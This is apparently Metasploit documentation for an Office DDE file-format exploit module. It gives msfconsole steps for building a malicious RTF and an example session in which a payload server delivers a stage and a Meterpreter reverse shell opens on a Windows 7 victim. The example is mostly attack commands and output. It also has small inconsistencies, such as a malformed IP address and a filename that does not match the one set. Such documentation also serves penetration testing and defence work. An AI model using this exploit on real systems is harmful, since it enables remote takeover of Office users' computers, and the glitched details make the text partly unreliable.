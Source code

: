 Module abuses a feature in MS Field Equations that allow an user to execute an arbitrary application.

## Vulnerable Application
All Microsoft Office versions

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_dde_delivery`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Options
### FILENAME
Filename to output, whether injecting or generating a blank one

### INJECT_PATH
Path to filename to inject


## Example

```
msf > use exploit/windows/fileformat/office_dde_delivery
msf exploit(office_dde_delivery) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_dde_delivery) > set LHOST ens3
LHOST => ens3
msf exploit(office_dde_delivery) > set LPORT 35116
LPORT => 35116
msf exploit(office_dde_delivery) > run
[*] Using URL: http://0.0.0.0:8080/DGADAcDZ
[*] Local IP: http://192.1668.0.11:8080/DGADAcDZ
[*] Server started.
[*] Handling request for .sct from 192.168.0.24
[*] Delivering payload to 192.168.0.24...
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217)

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
